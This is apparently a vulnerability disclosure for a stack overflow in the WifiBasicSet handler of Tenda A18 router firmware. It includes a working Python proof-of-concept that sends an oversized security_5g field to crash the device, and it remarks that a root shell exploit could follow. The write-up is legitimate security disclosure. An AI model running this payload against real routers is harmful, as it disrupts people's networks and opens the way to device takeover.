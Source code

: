 # Tenda A18 V15.13.07.09 Stack overflow vulnerability

## Firmware information

- Manufacturer's address: https://www.tenda.com.cn/

- Firmware download address: https://www.tenda.com.cn/download/detail-2760.html

## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/A18/formWifiBasicSet/img/1.png)

## Vulnerability details


![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/A18/formWifiBasicSet/img/2.png)


![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/A18/formWifiBasicSet/img/3.png)

In /goform/WifiBasicSet, the user can control security_5g, which will be copied to param_5g by the strcpy function. It is worth noting that there is no size check, which leads to a stack overflow vulnerability

## Poc

```python
import socket
import os

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

ip = '192.168.0.1'
port = 80

r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

r.connect((ip, port))

rn = b'\r\n'

p1 = b'a' * 0x3000
p2 = b'security_5g=' + p1

p3 = b"POST /goform/WifiBasicSet" + b" HTTP/1.1" + rn
p3 += b"Host: 192.168.0.1" + rn
p3 += b"User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:102.0) Gecko/20100101 Firefox/102.0" + rn
p3 += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
p3 += b"Accept-Language: en-US,en;q=0.5" + rn
p3 += b"Accept-Encoding: gzip, deflate" + rn
p3 += b"Cookie: password=1111" + rn
p3 += b"Connection: close" + rn
p3 += b"Upgrade-Insecure-Requests: 1" + rn
p3 += (b"Content-Length: %d" % len(p2)) +rn
p3 += b'Content-Type: application/x-www-form-urlencoded'+rn
p3 += rn
p3 += p2

r.send(p3)

response = r.recv(4096)
response = response.decode()
li(response)
```

You can see the router crash, and finally we can write an exp to get a root shell
